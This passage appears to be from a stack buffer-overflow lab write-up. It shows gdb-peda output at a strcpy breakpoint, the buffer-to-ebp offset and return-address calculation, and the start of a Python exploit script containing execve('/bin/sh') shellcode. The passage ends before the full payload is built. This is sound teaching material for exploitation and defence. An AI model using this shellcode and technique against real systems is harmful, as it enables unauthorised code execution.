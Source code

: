 ```console
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80484eb <bof>:	push   ebp
   0x80484ec <bof+1>:	mov    ebp,esp
   0x80484ee <bof+3>:	sub    esp,0x28
=> 0x80484f1 <bof+6>:	sub    esp,0x8
   0x80484f4 <bof+9>:	push   DWORD PTR [ebp+0x8]
   0x80484f7 <bof+12>:	lea    eax,[ebp-0x26]
   0x80484fa <bof+15>:	push   eax
   0x80484fb <bof+16>:	call   0x8048390 <strcpy@plt>
[------------------------------------stack-------------------------------------]
0000| 0xbfffe9f0 --> 0xb7fe96eb (<_dl_fixup+11>:	add    esi,0x15915)
0004| 0xbfffe9f4 --> 0x0
0008| 0xbfffe9f8 --> 0xb7fba000 --> 0x1b1db0
0012| 0xbfffe9fc --> 0xb7ffd940 (0xb7ffd940)
0016| 0xbfffea00 --> 0xbfffec68 --> 0x0
0020| 0xbfffea04 --> 0xb7feff10 (<_dl_runtime_resolve+16>:	pop    edx)
0024| 0xbfffea08 --> 0xb7e6688b (<__GI__IO_fread+11>:	add    ebx,0x153775)
0028| 0xbfffea0c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, bof (
    str=0xbfffea57 "\220I\352)\301v3\230)`\356*\276g\025\025\372\304b\002a\257\253\023\300\212\242\022\301̽\003ׂ\225\307υ\254\v\300\031\001\333.Q\024\264\222\237\005Ex3\342ZQC\004\377/̙Q\262\256\357\340Π\305\377\vH\275\320i!\r\310\323ԩ\304\016_\f\"\370\226\217\255\347@8l\311=\202\267\346\f\273\034'\025$!z]\023\277\340\215\351\374\347l{\024\356\253\307Y\001!\214yx\254\350\320Ӡ\250UJ\345ѱ\314s+V,\316\366'\037\211\201\204\004u\367Y\230\201") at stack.c:21
21	    strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xbfffea18
gdb-peda$ p &buffer
$2 = (char (*)[30]) 0xbfffe9f2
gdb-peda$ quit
```

First we calculate the offset between the pointer `$ebp` and the buffer. And also add some random value to the `$ebp` that does not result in any zero byte (since that would cancel the string copy early).

```console
$ printf "%d\n" $((0xbfffea18 - 0xbfffe9f2))
38
$ printf "0x%X\n" $((0xbfffea18 + 100))
0xBFFFEA7C
```

```python
#!/usr/bin/python3
import sys

shellcode= (
   "\x31\xc0"    # xorl    %eax,%eax
   "\x50"        # pushl   %eax
   "\x68""//sh"  # pushl   $0x68732f2f
   "\x68""/bin"  # pushl   $0x6e69622f
   "\x89\xe3"    # movl    %esp,%ebx
   "\x50"        # pushl   %eax
   "\x53"        # pushl   %ebx
   "\x89\xe1"    # movl    %esp,%ecx
   "\x99"        # cdq
   "\xb0\x0b"    # movb    $0x0b,%al
   "\xcd\x80"    # int     $0x80
).encode('latin-1')

```